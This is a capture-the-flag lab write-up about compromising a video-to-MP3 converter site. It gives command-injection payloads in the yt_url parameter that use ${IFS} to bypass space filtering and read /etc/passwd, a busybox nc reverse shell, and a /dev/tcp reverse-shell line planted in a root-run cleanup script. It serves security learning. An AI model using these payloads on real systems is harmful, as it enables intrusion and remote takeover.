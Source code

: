 ## Enumeration

Lets start with the nmap scan.
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-28 18:22 +0545
Nmap scan report for 10.10.34.159 (10.10.34.159)
Host is up (0.19s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 65:1b:fc:74:10:39:df:dd:d0:2d:f0:53:1c:eb:6d:ec (RSA)
|   256 c4:28:04:a5:c3:b9:6a:95:5a:4d:7a:6e:46:e2:14:db (ECDSA)
|_  256 ba:07:bb:cd:42:4a:f2:93:d1:05:d0:b3:4c:b1:d9:b1 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.76 seconds
```

Hmmm lets see whats in port 80.
![](Pasted%20image%2020250329005821.png)
Hmm as the name suggest,it converts a video or mp4 to mp3.
Hmmm lets check for any special features that we might need.
![](Pasted%20image%2020250329005836.png)
And interesingly,it asks for video id.
Hmmm.

Ohhh after seeing the souce code,i found out that it was asking for youtube video id.
![](Pasted%20image%2020250329005851.png)

Hmmm so as that code,it asks for video id of youtube and make us able to download the mp3 version.
Lets just check by passing one video from youtube.
![](Pasted%20image%2020250329005910.png)
Lets pass this videos id.
Ohh this is long video,lets use shorter one.
![](Pasted%20image%2020250329005922.png)

Lets see how it works.
![](Pasted%20image%2020250329005933.png)
I don't know why but its taking very long.

And few more things from directory busting.
![](Pasted%20image%2020250329005945.png)
And authentication in `/admin`.
![](Pasted%20image%2020250329005957.png)

But we don't have any username or password.
Hmmm.
And there is `/tmp` which is forbidden.
Hmmm interesting.

I captured the requests in burp.
![](Pasted%20image%2020250329010007.png)

Hmm so `yt_url` parameter is going on that video.
But what can we do here?
SSRF,LFI or just huge rabbithole.

Hmm interesting.
![](Pasted%20image%2020250329010019.png)

Hmmm very very interesting.
According to it,there is downloads folder in `/tmp` and there is mp3 file but there is nothing.
![](Pasted%20image%2020250329010029.png)

Hmmm,I am missing something.
So as far I understand it download the mp3 from passed video and save that in `/tmp/downloads` as mp3 file.

![](Pasted%20image%2020250329010040.png)
Hmm.

I guess we can do ssrf.
![](Pasted%20image%2020250329010059.png)

Hmm interesting.
And I am stuck for few hours.
Okay lets just see the part of writeup.
Hmmm so from the result we have got for now reveals that its using something `youtube-dl`.
Lets search for it.
![](Pasted%20image%2020250329010123.png)

## Exploit

Hmm interesting.
And command injection was also possible cause its running a command of `youtube-dl`,so we can use pipe to inject command too.
![](Pasted%20image%2020250329010133.png)

Okay lets continue to get shell or something.
But again it is not compatible.
We can't run long commands and many more.
(we couldn't use spaces i guess)

After some talk with chatGPT,we came up with this.
```Bash
yt_url=|cat${IFS}/etc/passwd;
```

So here that `${IFS}` worked as a space.

We could now read files easily.
![](Pasted%20image%2020250329010144.png)

Great.Now lets try to get shell or complete this rooms's goal.
We can read index.php.
![](Pasted%20image%2020250329010212.png)
![](Pasted%20image%2020250329010224.png)
We got the flag.txt.

As well as there is `.htaccess`file.
![](Pasted%20image%2020250329010243.png)
![](Pasted%20image%2020250329010332.png)


Now we can read that.
![](Pasted%20image%2020250329010344.png)

Lets crack the password hash.
![](Pasted%20image%2020250329010355.png)

## Foothold

And now we can login.
But I was wondering if we can execute command,can i get shell from that.
I tried different things but this one worked.
```bash
busybox${IFS}nc${IFS}ip${IFS}9999${IFS}-e${IFS}sh;
```
![](Pasted%20image%2020250329010411.png)

Lets also do it from `/admin`.
Cause we can also execute command by that cause we can see this.
![](Pasted%20image%2020250329010422.png)

So lets login and execute command.
![](Pasted%20image%2020250329010433.png)

## Privelege Escalation

Now we have got the shell,lets try to escalate our priveleges.
Lets run [linpeas.sh](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS).
Nothing interesting.
Lets also run [pspy](https://github.com/DominicBreuker/pspy/releases).


And we saw something interesting.
![](Pasted%20image%2020250329010455.png)
Hmm so clean.sh is running as root.
Lets check the permission of that script.
![](Pasted%20image%2020250329010506.png)

So we can edit and escalate to root.
I added this line in clean.sh.
```bash
sh -i >& /dev/tcp/ip/9999 0>&1
```

Now lets wait for some time and see if we got a root shell or not.
![](Pasted%20image%2020250329010518.png)

## Done

And done.
![](Pasted%20image%2020250329010530.png)

Again learned lots of things.I hope you are doing awesome.
Take Care!

